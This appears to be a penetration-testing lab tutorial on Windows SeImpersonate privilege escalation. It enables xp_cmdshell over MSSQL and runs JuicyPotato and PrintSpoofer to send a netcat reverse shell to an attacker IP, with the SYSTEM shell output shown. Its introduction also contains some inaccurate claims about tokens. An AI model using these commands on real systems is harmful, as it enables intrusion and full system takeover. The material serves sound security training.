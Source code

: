 In Windows, every process has a token that has information about the account that is running it. Those tokens are in memory, and can be brute forced by users who cannot read memory. To utilize the token, the `SeImpersonate` privilege is needed. It is only given to administrative accounts, and in most cases, can be removed during system hardening. An example of using this token would be [CreateProcessWithTokenW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw).

Legitimate programs may utilize another process's token to escalate from Administrator to Local System. Processes generally do this by making a call to the WinLogon process to get a SYSTEM token, then executing itself with that token placing it within the SYSTEM space. It can be abused in the "Potato style" privescs, where a service account can SeImpersonate, but not obtain full SYSTEM level privileges. Essentially, the Potato attack tricks a process running as system to connect to their process, which hands over the token to be used.

Sometimes it can be a quick and easy way to escalate privileges, especially if we gained RCE with an application that runs in the context of a service account (for example, uploading a web shell to an ASP.NET web application, achieving remote code execution through a Jenkins installation, or by executing commands through MSSQL queries). This [paper](https://github.com/hatRiot/token-priv/blob/master/abusing_token_eop_1.0.txt) is worth reading for further details on token impersonation attacks.

## SeImpersonate Example - JuicyPotato

Let's take an example, where we have gained a foothold on a SQL server using a privileged SQL user. Client connections to IIS and SQL Server may be configured to use Windows Authentication. The server may then need to access other resources such as file shares as the connecting client. To impersonate the user, the service account will be granted the [Impersonate a client after authentication](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/impersonate-a-client-after-authentication) privilege.

In this scenario, the SQL Service service account is running in the context of the default `mssqlserver` account. Imagine we have achieved command execution as this user using `xp_cmdshell` using a set of credentials obtained in a `logins.sql` file on a file share using the `Snaffler` tool.

### Connecting with MSSQLClient.py

Using the credentials `sql_dev:Str0ng_P@ssw0rd!`, let's first connect to the SQL server instance and confirm our privileges. We can do this using [mssqlclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py) from the `Impacket` toolkit.
```shell-session
$ mssqlclient.py sql_dev@10.129.43.30 -windows-auth

Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 1: Changed database context to 'master'.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (130 19162) 
[!] Press help for extra shell commands
SQL>
```

### Enabling xp_cmdshell

Next, we must enable the `xp_cmdshell` stored procedure to run operating system commands. We can do this via the Impacket MSSSQL shell by typing `enable_xp_cmdshell`. Typing `help` displays a few other command options.
```shell-session
SQL> enable_xp_cmdshell

[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install
```

Note: We don't actually have to type `RECONFIGURE` as Impacket does this for us.

### Confirming Access

With this access, we can confirm that we are indeed running in the context of a SQL Server service account.
```shell-session
SQL> xp_cmdshell whoami

output                                                                             

--------------------------------------------------------------------------------   

nt service\mssql$sqlexpress01
```

### Checking Account Privileges

Next, let's check what privileges the service account has been granted.
```shell-session
SQL> xp_cmdshell whoami /priv

output                                                                             

--------------------------------------------------------------------------------   
                                                                    
PRIVILEGES INFORMATION                                                             

----------------------                                                             
Privilege Name                Description                               State      

============================= ========================================= ========   

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled   
```

The command `whoami /priv` confirms that [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) is listed. [JuicyPotato](https://github.com/ohpe/juicy-potato) can be used to exploit the `SeImpersonate` or `SeAssignPrimaryToken` privileges via DCOM/NTLM reflection abuse.

### Escalating Privileges Using JuicyPotato

We will first upload `JuicyPotato.exe` and `nc.exe` to the target server. Next, stand up a Netcat listener on port 8443, and execute the command below. Below, we are telling the tool to try both the [CreateProcessWithTokenW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw) and [CreateProcessAsUser](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera) functions, which need `SeImpersonate` or `SeAssignPrimaryToken` privileges respectively.
```shell-session
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *

output                                                                             

--------------------------------------------------------------------------------   

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375                               
                                                                            
[+] authresult 0                                                                   
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM                                                                                                    
[+] CreateProcessWithTokenW OK                                                     
[+] calling 0x000000000088ce08
```

### Catching SYSTEM Shell

This completes successfully, and a shell as `NT AUTHORITY\SYSTEM` is received.
```shell-session
$ sudo nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 50332
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system


C:\Windows\system32>hostname

hostname
WINLPE-SRV01
```

## PrintSpoofer and RoguePotato

JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. However, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access. This [blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) goes in-depth on the `PrintSpoofer` tool.

### Escalating Privileges using PrintSpoofer

We can use the PrintSpoofer tool to spawn a SYSTEM process in you current console and interact with it, spawn a system process on a desktop, or catch a reverse shell. Here, using `nc.exe` to spawn a reverse shell.
```shell-session
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"

output                                                                             

--------------------------------------------------------------------------------   

[+] Found privilege: SeImpersonatePrivilege                                        

[+] Named pipe listening...                                                        

[+] CreateProcessAsUser() OK                                                       

NULL 
```

### Caching Reverse Shell as SYSTEM

If all goes according to plan, we will have a SYSTEM shell on our netcat listener.
```shell-session
Wildland4958@htb[/htb]$ nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 49847
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system
```
